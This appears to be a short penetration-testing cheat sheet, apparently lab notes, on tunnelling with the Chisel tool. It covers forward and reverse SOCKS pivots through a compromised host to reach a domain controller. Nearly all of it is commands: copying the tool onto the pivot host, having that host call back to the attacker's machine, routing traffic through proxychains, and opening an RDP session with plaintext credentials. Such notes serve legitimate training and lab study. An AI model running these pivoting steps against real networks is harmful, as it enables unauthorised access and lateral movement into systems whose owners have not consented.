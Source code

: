 -- Fast HTTP tunnel

**Attack host:
```shell-session
git clone https://github.com/jpillora/chisel.git
```
```shell-session
cd chisel
go build
```
```shell-session
scp chisel ubuntu@10.129.202.64:~/
```

**Pivot host:
```shell-session
./chisel server -v -p 1234 --socks5
```

**Attack host:
```shell-session
./chisel client -v 10.129.202.64:1234 socks
```
```shell-session
echo 'socks5 127.0.0.1 1080' >> /etc/proxychains.conf
```

**Pivot to DC
```shell-session
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```



### Chisel Reverse Pivot (attack host is server and pivot host is client)

**Attack host:
```shell-session
sudo ./chisel server --reverse -v -p 1234 --socks5
```

**Pivot host:
```shell-session
./chisel client -v 10.10.14.17:1234 R:socks
```

**Edit and confirm proxychains.conf on attack host:
```shell-session
tail -f /etc/proxychains.conf 
```
- should have 'socks5 127.0.0.1 1080'

Attack host:
```shell-session
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

